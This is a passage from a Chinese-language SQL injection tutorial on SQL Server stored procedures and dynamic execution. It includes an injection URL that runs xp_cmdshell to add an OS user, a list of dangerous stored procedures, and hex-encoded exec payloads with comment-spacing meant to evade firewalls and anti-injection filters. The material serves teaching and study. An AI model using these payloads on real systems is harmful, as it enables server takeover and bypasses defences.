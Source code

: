 #### 6.存储过程

存储过程 (Stored Procedure) 是在大型数据库系统中为了完成特定功能的一组 SQL “函数”，如：执行系统命令、查看注册表、读取磁盘目录等。

攻击者最常使用的存储过程是 **“xp_cmdshell”**，这个存储过程允许用户执行操作系统命令。
例如：`http://www.aaa.org/test.aspx?id=1` 中存在注入点，那么攻击者就可以实施命令攻击：
`http://www.aaa.org/test.aspx?id=1；exec xp_cmdshell 'net user test test /add'`

最终执行的 SQL 语句如下：
`SELECT * FROM table WHERE id=1; exec xp_cmdshell 'net user test test /add'`
分号后面的那一段语句就可以为攻击者在对方服务器上新建一个用户名为 test、密码为 test 的用户。

并不是任何数据库用户都可以使用此类存储过程，用户必须拥有**CONTROL SERVER**权限。

常见的危险存储过程：

```sql
sp_addlogin    创建新的 SQL Server 登录，该登录允许用户使用 SQL Server 身份连接到 SQL Server 实例
sp_dropuser    从当前数据库中删除数据库用户
xp_enumgroups    提供 Microsoft Windows 本地组列表或在指定的 Windows 域中定义全局组列表
xp_regread    读取注册表
xp_regwrite    写入注册表
xp_redeletevalue    删除注册表
xp_dirtree    读取目录
sp_password    更改密码
xp_servicecontrol    停止或激活某服务
```

另外，任何数据库在使用一些特殊的函数或存储过程时，都需要特定的权限。常见的SQL Server数据库的角色权限如下：

```sql
bulkadmin    可以运行 BULK INSERT 语句
dbcreator    可以创建、更改、删除和还原任何数据库
diskadmin    可以管理磁盘文件
processadmin    可以种植在数据库引擎中运行的实例
securityadmin    可以管理登录名及其属性；可以利用 GRANT、DENY 和 REVOKE 服务器级别的权限；还可以利用 GRANT、DENY 和 REVOKE 数据库级别的权限；此外也可以重置 SQL Server 登录名的密码
serveradmin    可以更改服务器范围的配置选项和关闭服务器
setupadmin    可以添加和删除链接服务器，并可以执行某些系统存储过程
sysadmin    可以在数据库引擎中执行任何活动
```

#### 7.动态执行

SQL Server 支持动态执行语句，用户可以提交一个字符串来执行 SQL 语句。

如：`exec('SELECT username, password FROM users')`

也可以通过定义十六进制的 SQL 语句，使用 exec 函数执行。大部分 Web 应用程序和防火墙都过滤了单引号，利用 exec 执行十六进制 SQL 语句可以突破很多防火墙及防注入程序，如：

```sql
declare @query varchar(888)
select @query=0x73656c6563742031
exec(@query)
```

或者：
`declare/**/@query/**/varchar(888)/**/select/**/@query=0x73656C6563742031/**/exec(@query)`

---
